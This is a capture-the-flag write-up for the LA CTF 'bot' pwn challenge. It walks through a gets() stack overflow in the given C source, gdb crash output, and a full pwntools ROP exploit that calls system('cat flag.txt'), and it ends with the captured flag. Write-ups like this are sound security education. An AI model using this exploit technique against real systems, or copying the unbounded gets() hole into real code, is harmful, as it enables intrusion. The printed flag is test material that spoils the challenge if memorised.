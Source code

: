 # bot (pwn) by kaiphait  

We got a Dockerfile, a libc, a linker, a binary and the source code,  
which is why my first thought was a ret2libc attack but it turned out that was not necessary.

First I checked the file and its mitigations:
```
file ./bot

bot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1ed799aea3b8082b9dadde68dd67684e6101badc, for GNU/Linux 3.2.0, with debug_info, not stripped
--
checksec --file ./bot

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
It is a 64-bit binary with NX enabled so it won't be possible to just execute shellcode on the stack.

When the binary is executed it prints:
```
hi, how can i help?
```
and waits for an input.

### Source Code:  
Since the source code was given I had a look at that:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
  setbuf(stdout, NULL);
  char input[64];
  volatile int give_flag = 0;
  puts("hi, how can i help?");
  gets(input);
  if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
```

Looking at how the binary gets its input, it's apparently vulnerable to a buffer overflow.
First I built a little script to generate test payloads:
```
from pwn import *
import sys

junk = cyclic(200)

sys.stdout.buffer.write(junk)
```
```
python fuzzer.py > test
--
gdb bot
--
b main
--
r < test

```

But when I executed the binary with gdb, it did not cause the binary to crash since it exits  
when an input does not equal any of the strings in the source code.

My second try looked like:
```
from pwn import *
import sys

junk = cyclic(200)
prefix = b"give me the flag\0"

sys.stdout.buffer.write(prefix + junk)
```
In order to get the binary to not exit but still overflow the buffer, I added a "valid" input, ending in a nullbyte.
Which then did overwrite rsp:
```
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffff7e8fa37  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007fffffffdf08  →  "aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabb[...]"
$rbp   : 0x61616e6161616d61 ("amaaanaa"?)
$rsi   : 0x1               
$rdi   : 0x00007ffff7f96a70  →  0x0000000000000000
$rip   : 0x00000000004012d2  →  <main+336> ret 
$r8    : 0x6               
$r9    : 0x0               
$r10   : 0x00007ffff7d84360  →  0x000f001a00007b95
$r11   : 0x246             
$r12   : 0x00007fffffffe018  →  0x00007fffffffe360  →  "/home/nanika/ctf/lactf/bot/bot"
$r13   : 0x0000000000401182  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf08│+0x0000: "aoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabb[...]"	 ← $rsp
0x00007fffffffdf10│+0x0008: "aqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabd[...]"
0x00007fffffffdf18│+0x0010: "asaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabf[...]"
0x00007fffffffdf20│+0x0018: "auaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabh[...]"
0x00007fffffffdf28│+0x0020: "awaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabj[...]"
0x00007fffffffdf30│+0x0028: "ayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabl[...]"
0x00007fffffffdf38│+0x0030: "bbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabn[...]"
0x00007fffffffdf40│+0x0038: "bdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabp[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4012c7 <main+325>       call   0x401080 <exit@plt>
     0x4012cc <main+330>       mov    eax, 0x0
     0x4012d1 <main+335>       leave  
 →   0x4012d2 <main+336>       ret    
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:bot.c+33 ────
     28	     }
     29	   } else {
     30	     puts("sorry, i didn't understand your question");
     31	     exit(1);
     32	   }
 →   33	 }
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bot", stopped 0x4012d2 in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4012d2 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  Quit
gef➤  
```
## Exploit Script:
After I found a way to overwrite rsp I started writing my script: 
(note that the exploit is written manually and much could be automated like the finding of gadgets and symbols)
```
from pwn import *

binary = "./bot"

#proc = remote("lac.tf", 31180)

proc = process(binary)
#gdb.attach(proc) # for debugging

system = p64(0x401050) # Read from ghidra
pop_rdi = p64(0x40133b) # ROPgadget --binary bot | grep "pop rdi"
cat_flag = p64(0x4020f3) # Read from ghidra
addr_of_main = p64(0x401182) # readelf -s ./bot | grep main
ret_addr = p64(0x40133b + 1) # ret address for stack alignment

prefix = b"give me the flag\0"
junk = prefix + cyclic(cyclic_find("aoaa")) # "aoaa" from previous test with testpayload

# overflow buffer
payload = junk

# put the string "cat flag.txt" into rdi
payload += pop_rdi
payload += cat_flag

# ret for stack alignment
payload += ret_addr

# call system with rdi being "cat flag.txt"
payload += system

# return to main so the binary does not just crash
payload += addr_of_main

# send payload to binary
proc.sendlineafter("help?", payload)
#text = proc.recvline()
#log.info(text.decode("utf-8"))

proc.interactive()
```
In order to get all the addresses manually I threw the binary into ghidra and read some addresses from there.

### Executing:
```
[+] Opening connection to lac.tf on port 31180: Done
/home/.../.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:823: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode

lol no
lactf{hey_stop_bullying_my_bot_thats_not_nice}
hi, how can i help?
$  
```
It was a fun challenge, thanks!


